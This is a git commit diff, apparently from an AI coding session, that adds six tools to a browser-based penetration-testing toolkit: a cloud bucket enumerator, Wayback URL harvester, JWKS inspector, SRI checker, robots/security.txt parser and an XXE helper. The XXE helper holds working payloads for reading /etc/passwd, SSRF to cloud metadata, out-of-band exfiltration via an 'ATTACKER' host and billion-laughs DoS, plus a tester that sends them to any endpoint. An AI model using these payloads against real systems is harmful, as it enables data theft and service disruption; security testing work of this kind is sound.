

Add Kali wave 6: Bucket Finder, Wayback, XXE Helper, JWKS Inspector, SRI Checker, robots/security.txt parser
- Cloud Bucket Finder: S3/GCS/Azure name permutations; flags listable
  (ListBucketResult) vs access-denied storage.
- Wayback Recon: Wayback Machine CDX API harvest with juicy-path/param
  filtering for old endpoints.
- XXE Helper: file-read/SSRF/OOB/billion-laughs payload generator plus an
  XML tester that flags /etc/passwd and metadata leakage.
- JWKS Inspector: parses a JWKS, lists kid/alg/use, computes RFC7638
  SHA-256 thumbprints; pairs with the JWT Attack Lab.
- SRI Checker: flags cross-origin scripts/styles lacking integrity.
- robots/security.txt Parser: surfaces Disallow paths, security contacts
  and sitemap URLs.

iOS pager now 54 tools; 63 desktop routes; all 4 suites green (kali.mjs
+4 assertions).

Claude-Session: https://claude.ai/code/session_015CrM97AMYaZRdxcVNCDT37

diff --git a/index.html b/index.html
@@ -627,6 +627,13 @@ const UNIVERSAL_TOOLS = [
   { id:"mixed-content",  name:"Mixed Content Scanner", icon:"⚠", cat:"Web", desc:"Find insecure http:// resources loaded by an https:// page (scripts, styles, images, forms).", feat:["active/passive","http on https"] },
   { id:"dev-utils",      name:"Dev Utilities",     icon:"🧮", cat:"Crypto", desc:"Epoch↔date, UUID generate/inspect, base converter and a live regex tester.", feat:["epoch","uuid","regex","base"] },
   { id:"cache-probe",    name:"Cache Poisoning Probe", icon:"🗄", cat:"Offense", desc:"Inject unkeyed headers (X-Forwarded-Host/Scheme) and detect reflection — a web cache poisoning indicator.", feat:["unkeyed input","X-Forwarded-Host","reflection"] },
+  // --- wave 6 ---
+  { id:"bucket-finder",  name:"Cloud Bucket Finder", icon:"🪣", cat:"Recon", desc:"Hunt for public S3/GCS/Azure buckets from a keyword and flag listable or access-denied storage.", feat:["S3/GCS/Azure","listable","permutations"] },
+  { id:"wayback",        name:"Wayback Recon",     icon:"🕰", cat:"Recon", desc:"Pull a domain's historical URLs from the Wayback Machine CDX API and surface juicy paths and parameters.", feat:["archived URLs","params","old endpoints"] },
+  { id:"xxe-helper",     name:"XXE Helper",        icon:"📜", cat:"Offense", desc:"Generate XXE payloads (file read, SSRF, OOB exfil, parameter entities) and send test XML to an endpoint.", feat:["file read","OOB exfil","tester"] },
+  { id:"jwks-inspector", name:"JWKS Inspector",    icon:"🧷", cat:"Crypto", desc:"Fetch and parse a JWKS endpoint — list keys with kid/alg/use and compute RFC7638 thumbprints.", feat:["kid/alg","thumbprint","RSA/EC"] },
+  { id:"sri-checker",    name:"SRI Checker",       icon:"🔗", cat:"Web", desc:"Find cross-origin scripts and styles loaded without Subresource Integrity — a supply-chain risk.", feat:["integrity","third-party","supply chain"] },
+  { id:"txt-parser",     name:"robots / security.txt", icon:"🤖", cat:"Recon", desc:"Fetch and parse robots.txt, security.txt and sitemap.xml — disallowed paths often reveal hidden endpoints.", feat:["disallow paths","contacts","sitemap"] },
 ];
 
 // Desktop-only factory — invoked ONLY when Platform.mode === "desktop".
@@ -3465,6 +3472,209 @@ Impl["cache-probe"] = (root) => {
   root.append(
     UIKit.panel("Target", null, url.wrap, el("div", { class: "row" }, UIKit.btn("Probe", run, "primary"))),
     UIKit.panel("Report", null, o.node));
+};
+
+/* ===================== CLOUD BUCKET FINDER ===================== */
+Impl["bucket-finder"] = (root) => {
+  const kw = UIKit.field("Keyword / company", { placeholder: "acme", mono: true });
+  const o = UIKit.out();
+  const tbody = el("tbody", {});
+  const tbl = el("table", { class: "tbl" }, el("thead", {}, el("tr", {}, el("th", {}, "bucket URL"), el("th", {}, "status"), el("th", {}, "result"))), tbody);
+  const SUFFIX = ["", "-backup", "-backups", "-assets", "-static", "-media", "-uploads", "-dev", "-prod", "-staging", "-data", "-logs", "-public", "-private", "-files", "-cdn", "-images", "-test"];
+  const run = async () => {
+    o.clear(); tbody.innerHTML = "";
+    const k = kw.input.value.trim().toLowerCase().replace(/[^a-z0-9\-]/g, "");
+    if (!k) return o.line("enter a keyword", "err");
+    const names = [...new Set(SUFFIX.flatMap(s => [k + s, s.replace(/^-/, "") + "-" + k]).filter(n => n && !n.startsWith("-")))];
+    const urls = [];
+    names.forEach(n => { urls.push("https://" + n + ".s3.amazonaws.com/"); urls.push("https://storage.googleapis.com/" + n + "/"); urls.push("https://" + n + ".blob.core.windows.net/?comp=list"); });
+    o.line("probing " + urls.length + " candidate buckets…", "dim");
+    const pool = makePool(); let hits = 0;
+    await pool.run(urls, 8, async (u) => {
+      try {
+        const r = await Net.fetchURL(u); const body = await r.text().catch(() => "");
+        let result = "", sev = "muted";
+        if (/ListBucketResult|<Contents>|EnumerationResults|<Blobs>/.test(body)) { result = "⚠ PUBLIC / listable"; sev = "sev-crit"; hits++; }
+        else if (/AccessDenied|<Code>AccessDenied|AuthenticationFailed/.test(body) || r.status === 403) { result = "exists (private)"; sev = "sev-low"; hits++; }
+        else if (r.status === 200) { result = "200 (check manually)"; sev = "sev-med"; hits++; }
+        else return;
+        tbody.appendChild(el("tr", {}, el("td", {}, u), el("td", {}, String(r.status)), el("td", { class: sev }, result)));
+      } catch {}
+    });
+    o.line(hits ? "⚠ " + hits + " interesting bucket(s)" : "no buckets responded (cross-origin reads need a CORS proxy)", hits ? "err" : "warn");
+    History.add("Bucket Finder", k + " · " + hits);
+  };
+  root.append(
+    UIKit.panel("Keyword", null, kw.wrap, el("div", { class: "row" }, UIKit.btn("Hunt", run, "primary"), el("span", { class: "hint" }, "S3 / Google Cloud Storage / Azure Blob name permutations"))),
+    UIKit.panel("Log", null, o.node),
+    UIKit.panel("Buckets", null, el("div", { style: "max-height:320px;overflow:auto" }, tbl)));
+};
+
+/* ===================== WAYBACK RECON ===================== */
+Impl["wayback"] = (root) => {
+  const dom = UIKit.field("Domain", { placeholder: "example.com", mono: true });
+  const limit = UIKit.field("Max URLs", { type: "number", value: "500", min: "50", max: "5000" });
+  const o = UIKit.out();
+  const JUICY = /\?|\.(?:json|xml|sql|bak|old|zip|env|log|config|yml|yaml|txt|php|asp|jsp)(?:$|\?)|\/(?:api|admin|graphql|upload|backup|debug|internal|private|v\d)\//i;
+  const run = async () => {
+    o.clear();
+    const d = dom.input.value.trim().replace(/^https?:\/\//, "").replace(/\/.*$/, "");
+    if (!d) return o.line("enter a domain", "err");
+    o.line("querying the Wayback Machine CDX API…", "dim");
+    const api = "https://web.archive.org/cdx/search/cdx?url=" + encodeURIComponent(d) + "/*&output=json&fl=original&collapse=urlkey&limit=" + (clamp(+limit.input.value || 500, 50, 5000));
+    let rows;
+    try { rows = await (await fetch(api)).json(); } catch (e) { return o.line("CDX query failed: " + e.message, "err"); }
+    const urls = (rows || []).slice(1).map(r => r[0]);
+    if (!urls.length) return o.line("no archived URLs found", "warn");
+    const juicy = urls.filter(u => JUICY.test(u));
+    o.line(urls.length + " archived URLs (" + juicy.length + " interesting)", "ok"); o.line("");
+    o.line("INTERESTING", "k"); (juicy.length ? juicy : urls).slice(0, 200).forEach(u => o.line("  " + u, juicy.length ? "warn" : "dim"));
+    History.add("Wayback", d + " · " + urls.length + " urls");
+  };
+  root.append(
+    UIKit.panel("Domain", null, el("div", { class: "toolbar" }, dom.wrap, limit.wrap), el("div", { class: "row" }, UIKit.btn("Fetch archive", run, "primary"))),
+    UIKit.panel("URLs", UIKit.copyBtn(() => o.node.textContent), o.node));
+  dom.input.addEventListener("keydown", e => { if (e.key === "Enter") run(); });
+};
+
+/* ===================== XXE HELPER ===================== */
+const XXE_PAYLOADS = {
+  "File read (classic)": '<?xml version="1.0"?>\n<!DOCTYPE r [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>\n<r>&xxe;</r>',
+  "File read (PHP base64)": '<?xml version="1.0"?>\n<!DOCTYPE r [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php">]>\n<r>&xxe;</r>',
+  "SSRF via XXE": '<?xml version="1.0"?>\n<!DOCTYPE r [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">]>\n<r>&xxe;</r>',
+  "OOB exfil (param entity)": '<?xml version="1.0"?>\n<!DOCTYPE r [\n<!ENTITY % p SYSTEM "http://ATTACKER/evil.dtd">\n%p;\n]>\n<r>&exfil;</r>',
+  "Billion laughs (DoS — caution)": '<?xml version="1.0"?>\n<!DOCTYPE lolz [<!ENTITY lol "lol"><!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;"><!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">]>\n<lolz>&lol3;</lolz>',
+};
+Impl["xxe-helper"] = (root) => {
+  const attacker = UIKit.field("Attacker host (for OOB)", { placeholder: "attacker.test", mono: true });
+  const list = el("div", {});
+  const buildList = () => {
+    list.innerHTML = "";
+    for (const [name, pl] of Object.entries(XXE_PAYLOADS)) {
+      const payload = pl.replace(/ATTACKER/g, attacker.input.value.trim() || "ATTACKER");
+      list.appendChild(el("div", { class: "list-row" }, el("div", { class: "lr-main" }, el("div", { class: "lr-title" }, name), el("code", { class: "lr-sub", style: "white-space:pre-wrap;word-break:break-all" }, payload)), UIKit.copyBtn(payload)));
+    }
+  };
+  attacker.input.addEventListener("input", buildList); buildList();
+  // tester
+  const url = UIKit.field("Test endpoint (accepts XML)", { placeholder: "https://site.com/api/xml", mono: true });
+  const sel = UIKit.select("Payload", Object.keys(XXE_PAYLOADS));
+  const o = UIKit.out();
+  const send = async () => {
+    o.clear();
+    if (!/^https?:\/\//.test(url.input.value.trim())) return o.line("enter the endpoint URL", "err");
+    const payload = XXE_PAYLOADS[sel.input.value].replace(/ATTACKER/g, attacker.input.value.trim() || "attacker.test");
+    try {
+      const r = await HttpKit.send({ method: "POST", url: url.input.value.trim(), headers: "Content-Type: application/xml", body: payload });
+      o.line("HTTP " + r.status + " (" + r.size + " bytes)", "dim");
+      if (/root:.*:0:0:|daemon:|\/bin\/(?:ba)?sh/.test(r.text)) o.line("⚠ /etc/passwd content detected — XXE file read CONFIRMED", "err");
+      else if (/ami-id|instance-id|computeMetadata/.test(r.text)) o.line("⚠ cloud metadata leaked via XXE SSRF", "err");
+      o.set((o.node.textContent || "") + "\n" + r.text.slice(0, 3000));
+    } catch (e) { o.line("request failed: " + e.message + " (CORS proxy may be needed)", "err"); }
+  };
+  root.append(
+    UIKit.panel("Payloads", null, attacker.wrap, list),
+    UIKit.panel("Tester", null, el("div", { class: "toolbar" }, url.wrap, sel.wrap), el("div", { class: "row" }, UIKit.btn("Send XML", send, "primary")), o.node));
+};
+
+/* ===================== JWKS INSPECTOR ===================== */
+async function jwkThumbprint(k) {
+  let canon;
+  if (k.kty === "RSA") canon = `{"e":"${k.e}","kty":"RSA","n":"${k.n}"}`;
+  else if (k.kty === "EC") canon = `{"crv":"${k.crv}","kty":"EC","x":"${k.x}","y":"${k.y}"}`;
+  else if (k.kty === "oct") canon = `{"k":"${k.k}","kty":"oct"}`;
+  else return "n/a";
+  const h = await crypto.subtle.digest("SHA-256", Bytes.enc(canon));
+  return btoa(String.fromCharCode(...new Uint8Array(h))).replace(/\+/g, "-").replace(/\//g, "_").replace(/=+$/, "");
+}
+Impl["jwks-inspector"] = (root) => {
+  const url = UIKit.field("JWKS URL", { placeholder: "https://site.com/.well-known/jwks.json", mono: true });
+  const o = UIKit.out();
+  const run = async () => {
+    o.clear();
+    let u = url.input.value.trim();
+    if (!/^https?:\/\//.test(u)) return o.line("enter the JWKS URL", "err");
+    let data;
+    try { data = JSON.parse(await (await Net.fetchURL(u)).text()); } catch (e) { return o.line("fetch/parse failed: " + e.message, "err"); }
+    const keys = data.keys || (data.kty ? [data] : []);
+    if (!keys.length) return o.line("no keys found", "warn");
+    o.line(keys.length + " key(s)", "ok"); o.line("");
+    for (const k of keys) {
+      o.line("kid : " + (k.kid || "(none)"), "k");
+      o.line("  kty=" + k.kty + " alg=" + (k.alg || "?") + " use=" + (k.use || "?") + (k.crv ? " crv=" + k.crv : ""), "dim");
+      if (k.n) o.line("  n=" + k.n.slice(0, 48) + "…", "dim");
+      try { o.line("  thumbprint(SHA-256): " + await jwkThumbprint(k), "v"); } catch {}
+      o.line("");
+    }
+    o.line("tip: pair a kid here with the JWT Attack Lab for confusion/forgery tests", "dim");
+    History.add("JWKS Inspector", u + " · " + keys.length + " key(s)");
+  };
+  root.append(
+    UIKit.panel("Endpoint", null, url.wrap, el("div", { class: "row" }, UIKit.btn("Inspect", run, "primary"))),
+    UIKit.panel("Keys", null, o.node));
+};
+
+/* ===================== SRI CHECKER ===================== */
+Impl["sri-checker"] = (root) => {
+  const url = UIKit.field("Page URL", { placeholder: "https://your-site.com", value: "https://", mono: true });
+  const o = UIKit.out();
+  const run = async () => {
+    o.clear();
+    const u = url.input.value.trim();
+    if (!/^https?:\/\//.test(u)) return o.line("enter a full URL", "err");
+    let html; try { html = await (await Net.fetchURL(u)).text(); } catch (e) { return o.line("fetch failed: " + e.message, "err"); }
+    const origin = new URL(u).host;
+    const doc = new DOMParser().parseFromString(html, "text/html");
+    const res = [...doc.querySelectorAll("script[src],link[rel=stylesheet][href]")];
+    let risky = 0, ok = 0;
+    o.line("CROSS-ORIGIN RESOURCES", "k");
+    res.forEach(n => {
+      const src = n.getAttribute("src") || n.getAttribute("href"); let host; try { host = new URL(src, u).host; } catch { return; }
+      if (host === origin) return; // first-party
+      const hasSRI = n.hasAttribute("integrity");
+      if (hasSRI) { ok++; o.line("✓ " + src.slice(0, 80), "ok"); }
+      else { risky++; o.line("⚠ no integrity: " + src.slice(0, 80), "warn"); }
+    });
+    if (!risky && !ok) o.line("no cross-origin scripts/styles found", "dim");
+    o.line(""); o.line(risky ? "⚠ " + risky + " third-party resource(s) without SRI — supply-chain risk" : "✓ all third-party resources use SRI", risky ? "err" : "ok");
+    History.add("SRI Checker", u + " · " + risky + " missing");
+  };
+  root.append(
+    UIKit.panel("Target", null, url.wrap, el("div", { class: "row" }, UIKit.btn("Check", run, "primary"))),
+    UIKit.panel("Report", null, o.node));
+};
+
+/* ===================== robots / security.txt PARSER ===================== */
+Impl["txt-parser"] = (root) => {
+  const url = UIKit.field("Site URL", { placeholder: "https://your-site.com", value: "https://", mono: true });
+  const o = UIKit.out();
+  const run = async () => {
+    o.clear();
+    let base = url.input.value.trim();
+    if (!/^https?:\/\//.test(base)) return o.line("enter a full URL", "err");
+    base = base.replace(/\/+$/, "") + "/";
+    const get = async (p) => { try { const r = await Net.fetchURL(base + p); return r.status < 400 ? await r.text() : null; } catch { return null; } };
+    // robots
+    o.line("robots.txt", "k");
+    const robots = await get("robots.txt");
+    if (!robots) o.line("not found / unreadable", "dim");
+    else { const dis = [...robots.matchAll(/Disallow:\s*(\S+)/gi)].map(m => m[1]); const maps = [...robots.matchAll(/Sitemap:\s*(\S+)/gi)].map(m => m[1]); o.line(dis.length + " Disallow entries (often hidden paths):", dis.length ? "warn" : "dim"); [...new Set(dis)].slice(0, 60).forEach(d => o.line("  ⚠ " + d, "warn")); maps.forEach(m => o.line("  sitemap: " + m, "v")); }
+    // security.txt
+    o.line(""); o.line("security.txt", "k");
+    const sec = await get(".well-known/security.txt") || await get("security.txt");
+    if (!sec) o.line("not found", "dim");
+    else ["Contact", "Expires", "Policy", "Encryption", "Acknowledgments", "Canonical"].forEach(f => { const m = sec.match(new RegExp("^" + f + ":\\s*(.+)$", "im")); if (m) o.line("  " + f + ": " + m[1], "v"); });
+    // sitemap
+    o.line(""); o.line("sitemap.xml", "k");
+    const sm = await get("sitemap.xml");
+    if (!sm) o.line("not found", "dim");
+    else { const locs = [...sm.matchAll(/<loc>([^<]+)<\/loc>/gi)].map(m => m[1]); o.line(locs.length + " URLs listed", "ok"); locs.slice(0, 40).forEach(l => o.line("  " + l, "dim")); }
+    History.add("robots/security.txt", base);
+  };
+  root.append(
+    UIKit.panel("Target", null, url.wrap, el("div", { class: "row" }, UIKit.btn("Fetch & parse", run, "primary"))),
+    UIKit.panel("Report", null, o.node));
+  url.input.addEventListener("keydown", e => { if (e.key === "Enter") run(); });
 };
 
 /* ===================== HISTORY (shared) ===================== */

diff --git a/PROGRESS.md b/PROGRESS.md
@@ -141,6 +141,14 @@ Last updated: 2026-06-24 (session start, autonomous overnight build)
 - [x] Dev Utilities (epoch/UUID/base/regex)
 - [x] Cache Poisoning Probe (unkeyed header reflection)
 
+### Phase 2.11 — Kali wave 6 (universal) ✅
+- [x] Cloud Bucket Finder (S3/GCS/Azure permutations, listable/private)
+- [x] Wayback Recon (CDX archived URL harvest, juicy-path filter)
+- [x] XXE Helper (file-read/SSRF/OOB/billion-laughs payloads + tester)
+- [x] JWKS Inspector (kid/alg/use + RFC7638 thumbprints)
+- [x] SRI Checker (missing Subresource Integrity on third-party)
+- [x] robots / security.txt Parser (disallow paths, contacts, sitemap)
+
 ## Backlog / next up (when user says "continue")
 1. Still browser-feasible (next waves): S3/GCS/Azure bucket finder,
    Wayback/archive URL recon, XXE payload helper, SSTI polyglot builder,
